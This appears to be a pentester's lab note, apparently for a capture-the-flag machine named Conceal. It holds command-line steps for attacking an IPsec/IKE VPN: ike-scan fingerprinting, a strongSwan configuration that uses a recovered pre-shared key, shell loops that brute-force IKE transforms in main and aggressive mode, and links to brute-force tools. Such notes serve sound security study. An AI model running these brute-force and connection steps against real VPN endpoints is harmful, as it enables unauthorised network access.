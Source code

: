 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://book.hacktricks.xyz/pentesting/ipsec-ike-vpn-pentesting

```bash - kali
ike-scan -M $TARGET
```

![[Pasted image 20220125181008.png | 1200]]

![[Pasted image 20220125182150.png | 1200]]

```bash - kali
echo -n 9C8B1A372B1878851BE2C097031B6E43 | wc -c
```

![[Pasted image 20220125182347.png | 1200]]

```bash - kali
sudo apt install strongswan -y
```

```bash - kali
echo '$TARGET : PSK "Dudecake1!"' >> /etc/ipsec.secrets
```

![[Pasted image 20220125182910.png | 1200]]

```bash - kali
sudo mousepad /etc/ipsec.conf
```

```bash - kali
conn Conceal
	type=transport
	keyexchange=ikev1
	right=$TARGET
	authby=psk
	rightprotoport=tcp
	leftprotoport=tcp
	esp=3des-sha1
	ike=3des-sha1-modp1024
	auto=start
```

```bash - kali
sudo ipsec stop
```

```bash - kali
sudo ipsec start --nofork
```

```bash - kali
nmap -p- -sT $TARGET
```

---

```bash - kali
for ENC in 1 2 3 4 5 6 7/128 7/192 7/256 8; do for HASH in 1 2 3 4 5 6; do for AUTH in 1 2 3 4 5 6 7 8 64221 64222 64223 64224 65001 65002 65003 65004 65005 65006 65007 65008 65009 65010; do for GROUP in 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt ;done ;done ;done ;done
```

And then brute-force each one using ike-scan (this can take several minutes):

```bash - kali
while read line; do (echo "Valid trans found: $line" && sudo ike-scan -M $line $TARGET) | grep -B14 "1 returned handshake" | grep "Valid trans found" ; done < ike-dict.txt
```

If the brute-force didn't work, maybe the server is responding without handshakes even to valid transforms. Then, you could try the same brute-force but using aggressive mode:

```bash - kali
while read line; do (echo "Valid trans found: $line" && ike-scan -M --aggressive -P handshake.txt $line $TARGET) | grep -B7 "SA=" | grep "Valid trans found" ; done < ike-dict.txt
```

Hopefully a valid transformation is echoed back. You can try the same attack using https://github.com/isaudits/scripts/blob/master/iker.py

ou could also try to brute force transformations with https://github.com/SpiderLabs/ikeforce

```bash - kali
./ikeforce.py $TARGET # No parameters are required for scan -h for additional help
```
